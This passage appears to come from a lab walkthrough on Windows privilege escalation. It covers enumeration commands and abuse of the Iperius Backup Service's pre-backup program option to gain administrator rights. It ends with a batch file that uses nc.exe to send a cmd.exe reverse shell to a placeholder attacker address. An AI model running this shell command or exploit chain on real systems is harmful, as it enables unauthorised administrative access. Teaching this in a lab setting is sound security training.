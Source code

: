 Ideally, McSkidy should explore all these. Privilege escalation does not have a silver bullet, and the vector that will work depends not only on the configuration of the target system but, in some cases, to user behaviour (e.g. finding a passwords.txt file on the desktop where the user notes his account passwords). In some cases, you will need to combine two or more vectors to achieve the desired result.



### Initial Information Gathering

Information gathering is an important step in privilege escalation because this is how you can uncover potential vectors. Some automated scripts are available to quickly enumerate most of the known vectors listed above. However, in real penetration testing engagements, you will often need to do some additional research based on these scripts' results.



A few key points in enumeration are as follows:

- Users on the target system: The net users command will list users on the target system.
- OS version: The `systeminfo | findstr /B /C: "OS Name"/C: "OS Version"` command will output information about the operating system. This should be used to do further research on whether a privilege escalation vulnerability exists for this version.
- Installed services: the wmic service list command will list services installed on the target system

In a real engagement, you should follow the more extensive list of commands provided in our Windows Privilege Escalation Room.



### Exploitation

The Iperius Backup Service suffers from a privilege escalation vulnerability. McSkidy could use it to elevate her privileges on the system. When Iperius Backup is installed as a service, it can be configured to run backup tasks with administrator privileges even if the current user has a lower privilege level.

Let's explore the exploitation steps:

1. Create a new backup task: The task itself is not important. You can set the backup path as C:\Users\McSkidy\Documents

2. Set the destination: From the destination tab, you can set the location where the backup will be written. Again, this is not important; you can set it to C:\Users\McSkidy\Desktop

3. Other processes: The "other processes" tab is important. As you can see, this gives us the option to set a program to run before or after every backup process. As the backup process is ran with administrator privileges, any program or external file configured here will be ran with administrator privileges. To exploit this, we will create a simple bat file and set it to run before the backup.

The .bat file will launch a shell using the nc.exe utility (conveniently located at C:\Users\McSkidy\Downloads\nc.exe). Launch the Notepad text editor and enter the following lines of code.


```
@echo off
C:\Users\McSkidy\Downloads\nc.exe ATTACK_IP 1337 -e cmd.exe
```
